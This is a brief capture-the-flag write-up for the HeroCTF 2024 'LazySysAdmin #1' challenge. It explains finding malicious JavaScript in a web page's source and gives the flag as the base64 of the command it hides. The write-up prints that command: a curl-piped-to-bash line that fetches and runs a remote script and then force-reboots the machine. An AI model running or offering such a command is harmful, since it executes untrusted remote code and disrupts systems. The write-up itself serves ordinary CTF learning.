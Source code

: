 ```yaml
---
title: CTFs | HeroCTF_2024 | Misc | LazySysAdmin1
author: BatBato
date: 2024-10-26
categories:
  - CTFs
  - HeroCTF_2024
  - Misc
tags:
  - Misc
permalink: /CTFs/HeroCTF_2024/Misc/LazySysAdmin1
---
```

# LazySysAdmin #1

![[https://raw.githubusercontent.com/Nouman404/nouman404.github.io/refs/heads/main/_posts/CTFs/HeroCTF_2024/photos/HeroCTF_2024_misc_lazy_enonce.png]]

In this challenge we just have access to a web page and need to find the malicious code. When we access a post, we get a page with a bunch of text and if we look in the source code we can see a malicious `JavaScript` code :

![[https://raw.githubusercontent.com/Nouman404/nouman404.github.io/refs/heads/main/_posts/CTFs/HeroCTF_2024/photos/HeroCTF_2024_misc_lazy_burp.png]]

So we just have to `base64` encode `curl -s https://ghostbin.site/6y65l/raw | bash && sleep 2 && reboot -f`. This gives us `Y3VybCAtcyBodHRwczovL2dob3N0YmluLnNpdGUvNnk2NWwvcmF3IHwgYmFzaCAmJiBzbGVlcCAyICYmIHJlYm9vdCAtZgo=`. 

So the flag is : `HERO{Y3VybCAtcyBodHRwczovL2dob3N0YmluLnNpdGUvNnk2NWwvcmF3IHwgYmFzaCAmJiBzbGVlcCAyICYmIHJlYm9vdCAtZgo=}`
